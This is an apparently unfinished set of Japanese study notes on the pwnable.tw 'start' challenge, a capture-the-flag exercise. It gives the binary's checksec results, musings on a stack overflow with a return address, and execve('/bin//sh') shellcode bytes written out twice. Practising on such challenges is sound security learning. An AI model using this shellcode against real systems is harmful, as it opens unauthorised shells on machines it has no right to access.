 # url
https://pwnable.tw/challenge/#1

# checksec
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   8 Symbols     No        0               0       start
```

# 解法
nc 

# 考察
シェルコード + ダミー + 戻りアドレスの入力でうまく飛んでくれるはず
シェルコード + ダミーで20以下

これがシェルコード
`1\xc01\xdb1\xc91\xd2Qh//shh/bin\x89\xe3\xb8\x0b\x00\x00\x00\xcd\x80`
`Qh//shh/bin\x89\xe3\xb8\x0b\x00\x00\x00\xcd\x80`
このシェルコードのサイズは?
リターンアドレスはどうする?

これで入力すると/っていう文字列が入力されたと思われてしまう


1. シェルコードを書く
2. リターンアドレスの確認
3. 実行

シェルコード

